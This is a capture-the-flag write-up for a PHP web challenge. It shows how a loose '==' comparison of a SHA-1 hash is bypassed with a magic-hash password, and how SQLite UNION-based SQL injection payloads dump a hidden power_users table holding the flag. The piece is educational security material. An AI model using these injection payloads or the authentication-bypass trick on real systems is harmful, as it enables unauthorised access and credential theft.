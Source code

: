 # DeconstruCT.F 2023

## why-are-types-weird

> Jacob is making a simple website to test out his PHP skills. He is certain that his website has absolutely zero security issues.
> 
> Find out the fatal bug in his website.
>
>  Author: N/A
>

Tags: _web_

## Solution
Inspecting the source code of the web application reveals a suspicious looking comment

```html
 <!-- <div class="container mt-3">
        <a href="source.php">View login source</a>
        <form method="get" action="/login.php">
            <div id="div_login">
                <h1>Admin Login</h1>
                <div>
                    <input type="text" class="textbox" id="txt_uname" name="txt_uname" placeholder="Username" />
                </div>
                <br>
                <div>
                    <input type="password" class="textbox" id="txt_pwd" name="txt_pwd" placeholder="Password" />
                </div>
                <br>
                <div>
                    <input type="submit" value="Submit" name="but_submit" id="but_submit" />
                </div>
            </div>
        </form>
    </div> -->
```

At the first glance it looks more or less like the form input sequence used for login a bit further down the code. But there is another link that points to `source.php`. Heading there we get the login source.

```php
<?php
if (isset($_GET['but_submit'])) {
    $username = $_GET['txt_uname'];
    $password = $_GET['txt_pwd'];
    if ($username !== "admin") {
        echo "Invalid username";
    } else if (hash('sha1', $password) == "0") {
        session_start();
        $_SESSION['username'] = $username;
        header("Location: admin.php");
    } else {
        echo "Invalid password";
    }
}
```

Ok, the username we look for is `admin`. For the password check a `sha1` hash is created and checked if it's `"0"`. There is no such `sha1` hash but the title mentioned `types` a pointer to php's famous [`type juggling`](https://www.php.net/manual/en/language.types.type-juggling.php) [`vulnerabilities`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md).

For `"0"` there are a handful of checks that lead `TRUE`.

```php
"0" == FALSE
"0" == 0
"0" == "0"
"0" == "0e1"
"0" == "0e99"
```

So any string that starts with `"0e"` will be returning `true` in this condition. After a short research once value that has a `sha1` hash starting with `0e` is `10932435112`.

```bash
$ echo -n "10932435112" | sha1sum
0e07766915004133176347055865026311692244  -
```

So we can login with `admin:10932435112`. After doing so there is a interface for querying user information by entering the user id. There are three users in total, but no admin. After some trial and error it looked like the application had a `sqli` injection vulnerability. Also the application leaked info by printing error messages, so it was clear that the database used was `sqlite`.

Checking first what tables we have, entering `id like "%" UNION SELECT name, null, null FROM  sqlite_master WHERE type ='table'` gives a list of all users along with some table names. Luckily there is a interesting table in the result `power_users`. This looks better than the `users` table we where looking in.

Another `UNION payload` finally reveiled the power users as well and with it admin and the flag.

```id like "%" UNION SELECT id, username, password FROM power_users``` 

```
ID      Username        Password
1       nottheadmin     dsc{1s_th1s_r34lLy_u53l3sS}
1       user1           password1
2       admin           dsc{tYp3_juGgl1nG_i5_cr4zY}
2       user2           password123
3       amitheadmin     dsc{n0_1m_n0t_th3_4dm1n}
```

Flag `dsc{tYp3_juGgl1nG_i5_cr4zY}`